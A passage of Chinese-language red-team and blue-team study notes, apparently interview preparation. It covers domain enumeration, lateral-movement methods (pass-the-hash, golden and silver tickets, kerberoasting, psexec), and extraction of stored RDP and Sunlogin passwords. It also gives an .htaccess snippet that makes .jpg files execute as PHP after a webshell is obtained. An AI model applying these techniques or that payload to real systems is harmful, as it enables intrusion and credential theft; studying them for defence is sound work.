说明：轻型目录访问协议和NetMeeting Internet Locator Server共用这一端口。
端口：53
服务：Domain Name Server（DNS）
说明：53端口为DNS(Domain Name Server，域名服务器)服务器所开放，主要用于域名解析，DNS服务在NT系统中使用的最为广泛。通过DNS服务器可以实现域名与IP地址之间的转换，只要记住域名就可以快速访问网站。
端口：88
服务：88/TCP	Kerberos - 认证代理
说明：Kerberos 协议是一种基于密钥分发模型的网络身份验证方法。该协议使在网络上进行通信的实体能够证明彼此的身份，同时该协议可以阻止窃听或重放攻击。Kerberos 密钥分发中心 (KDC) 在该端口上侦听票证请求。Kerberos 协议的 88 端口也可以是 TCP/UDP。

3.各种命令
```shell
dsquery

net group "Domain controllers"
```
### Kerberos的约束性委派和非约束性委派

## 横向移动
我认为横向移动的思路：

1. 哈希传递 pass the hash ，类似于使用网站数据库存储加密后的用户密钥一样。
2. 票据传递 pass the tickets，伪造白银、黄金票据进行传递攻击。
3. SPN扫描内网应用，通过不同的哈希请求TGS获得kerberos白银票据
4. 机器上有密码文件
5. 机器上有远程控制文件
6. kerberoast 非约束性委派
7. 永恒之蓝、永恒之黑之类服务器的漏洞
8. IPC批量空连接，开启了139、445、管理员开启默认共享
### 如果这台主机也远程连接了其他主机，如何收集？
#### 1. 本地RDP
使用mimikatz对rdp文件进行解密，或者直接使用 netpass
> [https://blog.csdn.net/lhh134/article/details/104475654](https://blog.csdn.net/lhh134/article/details/104475654)

#### 2. 其他远程控制软件
向日葵：window上读取 config.ini 里的加密密码。可以利用GitHub工具解密，新版本的是放在注册表内。
### NTLM的读hash进行横向移动
使用mimikatz进行哈希传递

### 利用smb协议上线不出网主机
主要是使用了 psexec
使用条件：

- 目标机器的139或445端口开放
- 具有目标用户的明文密码或NTLM hash
- 共享文件夹的写入权限
- 服务的创建和启动权限（一般是特权账号才具有）
- 工作组环境必须使用administrator用户；域环境连接域控制器必须使用域管理员用户

## 内网常用协议
# 蓝方防御

### **webshell检测，有哪些方法？**
grep、关键词、关键函数
安全狗、D盾

### **Windows、Linux、数据库的加固降权思路**
禁用root
禁止远程访问
禁止写入
单独帐号
禁止执行system等函数

### **你使用什么工具来判断系统是否存在后门**
Chkrootkit
Rkhunter


# 其他
### 拿到一个webshell发现网站根目录下有.htaccess文件，我们能做什么？
覆盖.htaccess
```shell
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
插入这个.jpg文件会被解析成.php文件。
> [https://blog.csdn.net/shana_8/article/details/104827642](https://blog.csdn.net/shana_8/article/details/104827642)


### access 扫出后缀为asp的数据库文件，访问乱码，如何实现到本地利用？
迅雷下载，直接改后缀为.mdb。

### 目标站禁止注册用户，找回密码处随便输入用户名提示：“此用户不存在”，你觉得这里怎样利用？
先爆破用户名，再利用被爆破出来的用户名爆破密码。
所有和数据库有交互的地方都有可能有注入。

### 为什么aspx木马权限比asp大？
aspx使用的是.net技术。IIS 中默认不支持，ASP只是脚本语言而已。入侵的时候asp的木马一般是guest权限…APSX的木马一般是users权限。
